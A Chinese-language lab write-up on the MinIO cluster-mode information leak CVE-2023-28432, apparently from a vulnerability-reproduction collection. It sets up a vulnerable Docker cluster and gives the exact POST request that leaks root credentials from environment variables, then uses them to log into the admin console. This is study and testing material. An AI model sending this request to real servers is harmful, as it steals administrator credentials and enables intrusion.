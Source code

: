 # MinIO集群模式信息泄露漏洞（CVE-2023-28432）

MinIO是一个开源对象存储系统。

在其`RELEASE.2023-03-20T20-16-18Z`版本（不含）以前，集群模式部署下存在一处信息泄露漏洞，攻击者可以通过发送一个POST数据包获取进程所有的环境变量，其中就包含账号密码`MINIO_ROOT_USER`和`MINIO_ROOT_PASSWORD`。

参考链接：

- <https://github.com/minio/minio/security/advisories/GHSA-6xvq-wj2x-3h3q>
- <https://mp.weixin.qq.com/s/GNhQLuzD8up3VcBRIinmgQ>

## 漏洞环境

执行如下命令启动一个MinIO集群，其中包含3个以集群模式运行的服务：

```
docker compose up -d
```

集群启动后，访问`http://your-ip:9001`可以查看Web管理页面，访问`http://your-ip:9000`是API服务。

## 漏洞复现

这个漏洞存在于API节点`http://your-ip:9000/minio/bootstrap/v1/verify`上，发送如下数据包即可查看泄露的环境变量：

```
POST /minio/bootstrap/v1/verify HTTP/1.1
Host: your-ip:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

![](1.png)

可见，其中包含`MINIO_ROOT_USER`和`MINIO_ROOT_PASSWORD`。使用这个账号密码，即可成功登录管理后台：

![](2.png)
